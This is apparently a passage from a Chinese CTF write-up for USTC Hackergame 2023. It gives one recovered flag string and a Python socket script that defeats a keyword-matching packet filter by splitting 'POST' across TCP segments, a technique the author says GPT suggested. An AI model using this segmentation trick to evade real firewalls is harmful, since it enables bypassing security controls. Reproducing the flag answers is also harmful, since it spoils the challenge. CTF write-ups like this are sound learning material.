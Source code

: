 ```
        cv2.imwrite(f"{picPath}/frame{i}.jpg", buffer[i])
```

深夜做这个给气笑了：

![image-20231104151115092](http://cdn.r.iabc.work/picgo/202311041511170.png/compress)

![image-20231104151136193](http://cdn.r.iabc.work/picgo/202311041511221.png/compress)

`flag{it-could-be-easy-to-restore-video-with-haruhikage-even-without-metadata-0F7968CC}`

### 18. Komm, süsser Flagge

问了问 GPT ，GPT 说把数据包切分开来发出去就行。

好像还因为非预期解把第二问给爆了，详见[官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/tree/master/official/Komm%2C%20s%C3%BCsser%20Flagge)吧。

```python
import socket
import time

server_ip = "202.38.93.111"
server_port = 18080
# server_port = 18081
token = ""

post_part1 = "PO"
post_part2 = "ST / HTTP/1.1\r\n"
post_part2 += "Host: {}\r\n".format(server_ip)
post_part2 += "Content-Type: application/x-www-form-urlencoded\r\n"
post_part2 += "Content-Length: {}\r\n\r\n".format(len(token))
post_part2 += str(token)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((server_ip, server_port))

try:
    # Send the first part of the "POST" method
    s.sendall(post_part1.encode())
    time.sleep(1)
    # Send the rest of the request
    s.sendall(post_part2.encode())

    # Receive the response
    response = s.recv(4096)
    print(response.decode())
finally:
    s.close()
```

